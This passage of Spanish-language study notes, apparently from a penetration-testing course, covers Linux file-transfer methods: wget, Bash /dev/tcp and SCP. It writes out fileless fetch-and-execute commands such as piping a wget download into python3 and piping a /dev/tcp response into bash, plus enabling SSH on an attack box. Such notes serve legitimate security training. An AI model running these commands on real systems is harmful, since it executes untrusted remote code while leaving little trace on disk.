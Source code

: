 Con wget + Python:
```
wget -qO- http://servidor/script.py | python3`
```
- Descarga el script y lo ejecuta directamente en Python **sin escribirlo en disco**.


# 4. Descarga con Bash (/dev/tcp)
Cuando no hay herramientas comunes como *wget* o *curl*, Bash (≥ v2.04, compilado con `--enable-net-redirections`) permite realizar conexiones TCP directas mediante `/dev/tcp`.  Esto permite usar la ruta `/dev/tcp/host/puerto` para abrir conexiones de red.
Esto sirve para transferir archivos de forma muy básica.

1. Conectar al servidor web objetivo
```
    exec 3<>/dev/tcp/10.10.10.32/80
```
Abre un descriptor de archivo (`3`) para comunicarse con el puerto 80 del servidor.
   
2. Enviar petición HTTP GET
```
echo -e "GET /LinEnum.sh HTTP/1.1\n\n" >&3`
```    
Solicita el recurso `/LinEnum.sh`.
   
3. Recibir y mostrar la respuesta
```
cat <&3
```
Si lo quisiera guardar en un archivo podría hacer:
```
cat <&3 > LinEnum.sh`
```

Y si lo quiero ejecutar directamente sin guardarlo (fileless), podría hacer:
```
cat <&3 | bash
```

# 5. Descargas con SSH
SCP (Secure Copy) permite copiar archivos y directorios entre hosts usando SSH de forma cifrada.
    - Sintaxis parecida a cp, pero hay que indicar usuario, IP/DNS y credenciales.
    - Puede copiar de local → remoto o de remoto → local.
Configuración del servidor SSH en Pwnbox:
1. Habilitar el servicio SSH:  ```
```
sudo systemctl enable ssh
```
2. Iniciar el servicio:
```
sudo systemctl start ssh
```   
3. Verificar que está escuchando en el puerto 22:
```
netstat -lnpt
```
Debe aparecer `0.0.0.0:22 LISTEN`.
